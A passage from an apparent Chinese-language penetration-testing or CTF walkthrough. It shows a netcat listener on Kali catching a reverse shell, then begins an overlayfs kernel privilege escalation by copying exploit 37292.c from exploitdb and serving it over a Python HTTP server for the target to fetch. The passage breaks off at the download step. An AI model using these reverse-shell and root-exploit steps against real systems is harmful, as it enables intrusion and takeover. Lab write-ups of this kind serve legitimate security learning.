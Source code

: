 ### 3.2Getshell：

kali开启监听：

```
nc -lvnp 5555
```



稍等1分钟左右就可以接收到反弹的shell

![](img/Snipaste_2022-02-16_17-42-59.png)





## 



## 4.提权方式二 overlayfs内核提权：

内核版本为3.1.3  kali`searchsploit ubuntu`  可以内核提权 

kali启动服务器：

```shell
 cp  /usr/share/exploitdb/exploits/linux/local/37292.c .
 python -m http.server 80
```



目标机器：执行下载
